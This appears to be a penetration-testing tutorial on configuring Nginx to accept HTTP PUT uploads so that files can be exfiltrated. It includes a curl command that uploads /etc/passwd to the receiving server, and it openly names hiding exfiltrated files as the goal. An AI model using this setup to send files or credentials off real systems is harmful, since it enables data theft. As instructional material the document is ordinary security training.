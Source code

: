 # Catching Files over HTTP/S
## Nginx - Enabling PUT
When allowing HTTP uploads, it is critical to be 100% positive that users cannot upload web shells and execute them. Apache makes it easy to shoot ourselves in the foot with this, as the PHP module loves to execute anything ending in PHP. Configuring Nginx to use PHP is nowhere near as simple.

**Create a Directory to Handle Uploaded Files**
```bash
$ sudo mkdir -p /var/www/uploads/SecretUploadDirectory
```

**Change the Owner to www-data**
```bash
$ sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
```

**Create Nginx Configuration File**
```bash
nano /etc/nginx/sites-available/upload.conf

server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

**Symlink our Site to the sites-enabled Directory**
```bash
$ sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
```

**Start Nginx**
```bash
$ sudo systemctl restart nginx.service
```

If we get any error messages, check /var/log/nginx/error.log

**Verifying Errors**
```bash
$ tail -2 /var/log/nginx/error.log

2020/11/17 16:11:56 [emerg] 5679#5679: bind() to 0.0.0.0:`80` failed (98: Address already in use`)
2020/11/17 16:11:56 [emerg] 5679#5679: still could not bind()
```

```bash
$ ss -lnpt | grep 80

LISTEN 0      100          0.0.0.0:80        0.0.0.0:*    users:(("python",pid=`2811`,fd=3),("python",pid=2070,fd=3),("python",pid=1968,fd=3),("python",pid=1856,fd=3))
```

```bash
$ ps -ef | grep 2811

user65      2811    1856  0 16:05 ?        00:00:04 `python -m websockify 80 localhost:5901 -D`
root        6720    2226  0 16:14 pts/0    00:00:00 grep --color=auto 2811
```

**Remove NginxDefault Configuration**
```bash
$ sudo rm /etc/nginx/sites-enabled/default
```

Now we can test uploading by using cURL to send a PUT request. In the below example, we will upload the /etc/passwd file to the server and call it users.txt

**Upload File Using cURL**
```bash
$ curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
```

```bash
$ sudo tail -1 /var/www/uploads/SecretUploadDirectory/users.txt 

user65:x:1000:1000:,,,:/home/user65:/bin/bash
```

Once we have this working, a good test is to ensure the directory listing is not enabled by navigating to http://localhost/SecretUploadDirectory. By default, with Apache, if we hit a directory without an index file (index.html), it will list all the files. This is bad for our use case of exfilling files because most files are sensitive by nature, and we want to do our best to hide them. Thanks to Nginx being minimal, features like that are not enabled by default.


